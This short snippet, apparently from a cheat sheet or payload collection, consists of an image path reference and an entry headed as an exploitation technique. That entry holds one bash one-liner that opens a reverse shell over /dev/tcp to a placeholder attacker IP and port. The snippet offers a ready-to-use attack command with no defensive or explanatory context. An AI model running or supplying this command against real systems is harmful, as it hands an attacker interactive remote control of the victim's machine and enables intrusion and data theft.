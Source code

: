 # [Exploitation] Reverse shell (TCP via /dev/tcp) --bash
bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'

